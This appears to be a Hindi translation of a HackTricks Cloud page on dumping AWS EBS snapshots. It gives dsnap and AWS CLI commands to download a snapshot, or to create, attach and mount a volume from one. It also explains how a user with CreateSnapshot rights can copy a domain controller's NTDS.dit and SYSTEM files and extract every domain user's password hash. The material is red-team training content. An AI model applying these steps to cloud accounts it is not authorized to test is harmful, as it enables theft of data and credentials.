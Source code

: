 # AWS - EBS स्नैपशॉट डंप

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS रेड टीम एक्सपर्ट)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपोज़ में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>

### स्नैपशॉट की जांच स्थानीय रूप से
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
इस तकनीक के बारे में अधिक जानकारी के लिए मूल शोध देखें [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

आप इसे Pacu का उपयोग करके मॉड्यूल [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots) के साथ कर सकते हैं।

### AWS में एक स्नैपशॉट की जाँच करना

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**इसे अपने नियंत्रण में एक EC2 VM में माउंट करें** (यह बैकअप की प्रतिलिपि के समान क्षेत्र में होना चाहिए):

**चरण 1:** EC2 –> Volumes पर जाएं और अपनी पसंदीदा आकार और प्रकार का एक नया वॉल्यूम बनाएं।

**चरण 2:** बनाए गए वॉल्यूम को चुनें, राइट क्लिक करें और "attach volume" विकल्प का चयन करें।

**चरण 3:** नीचे दिखाए गए अनुसार इंस्टेंस टेक्स्ट बॉक्स से इंस्टेंस का चयन करें।

![](<../../../../.gitbook/assets/image (6) (1) (1).png>)

**चरण 4:** अब, अपने ec2 इंस्टेंस में लॉगिन करें और निम्नलिखित कमांड का उपयोग करके उपलब्ध डिस्क की सूची बनाएं।
```
lsblk
```
उपरोक्त कमांड आपके इंस्टेंस से जुड़े डिस्क की सूची दिखाएगा।

**चरण 5:**

![](<../../../../.gitbook/assets/image (59).png>)

आप यह Pacu का उपयोग करके ebs\_\_explore\_snapshots मॉड्यूल के साथ कर सकते हैं

### AWS में स्नैपशॉट की जांच करना (cli का उपयोग करते हुए)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

### शैडो कॉपी

कोई भी AWS उपयोगकर्ता जिसके पास **`EC2:CreateSnapshot`** अनुमति है, वह **डोमेन कंट्रोलर का स्नैपशॉट बनाकर**, उसे अपने नियंत्रण वाले इंस्टेंस पर माउंट करके और **NTDS.dit और SYSTEM** रजिस्ट्री हाइव फाइल को Impacket के secretsdump प्रोजेक्ट के साथ उपयोग करने के लिए निर्यात करके सभी डोमेन उपयोगकर्ताओं के हैशेज चुरा सकता है।

आप इस टूल का उपयोग करके हमले को स्वचालित कर सकते हैं: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) या आप स्नैपशॉट बनाने के बाद पिछली तकनीकों में से एक का उपयोग कर सकते हैं।

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) देखें!
* [**official PEASS & HackTricks swag**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर **मुझे फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
